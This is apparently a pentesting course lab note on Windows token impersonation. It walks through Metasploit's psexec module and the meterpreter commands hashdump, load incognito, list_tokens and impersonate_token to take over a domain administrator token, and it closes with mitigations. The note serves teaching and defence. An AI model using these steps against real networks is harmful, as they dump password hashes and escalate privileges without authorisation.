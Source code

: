 # Token Impersonation Attacks

What are **tokens**?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. (like cookies for computers)

Two types:
- Delegate
	- Created for logging into a machine or using Remote Desktop
- Impersonate 
	- non-interactive" such as attaching a network drive or a domain logon script

***
We will use the incognito module on Metasploit. Step by step:
```
sudo msfconsole
```

```
msf> use exploit/windows/smb/psexec
```

![tia-1](https://user-images.githubusercontent.com/87711310/209465325-c0556880-8f87-4941-b8e5-f7ed8283ced8.png)

Things we can run once we get the session

```
meterpreter> hashdump
meterpreter> getuid
meterpreter> sysinfo
```
![tia-2](https://user-images.githubusercontent.com/87711310/209465327-eff7c6c8-7386-4c0a-b975-15f654803d56.png)

Can now load tools. 
We will load incognito
```
meterpreter> load incognito
meterpreter> help
```

![tia-3](https://user-images.githubusercontent.com/87711310/209465328-cc7ac432-9758-4421-a62b-df208cac1563.png)

We will try to impersonate a user
```
meterpreter> list_tokens -u
```
![tia-4](https://user-images.githubusercontent.com/87711310/209465330-f056c9de-6f34-44c8-b7ae-0bc0a2cb4c1e.png)

Heath had MARVEL\Administrator available as a token (we had fcastle and could impersonate him):
```
meterpreter> impersonate_token marvel\\administrator
```
> we use two '\\' due to character escaping

Only who is logged in will show up. 
We can impersonate this user until the computer is rebooted

If we are cannot run system commands, can revert back to our identity:

```
meterpreter> rev2self
```
![tia-5](https://user-images.githubusercontent.com/87711310/209465323-75babe0f-e070-4fa5-87e9-c88342129042.png)

## Token Impersonation Mitigation

- Limit user/group token creation permission (not as effective)
- Much better> Account tiering
	- Domain admins should only log into DC's not other devices, as doing so we can still token impersonation attacks with admin details
- Local admin restriction
	- If users are not local admins on their computers that prevents us from getting shell on their computer and utilising this kind of attack 


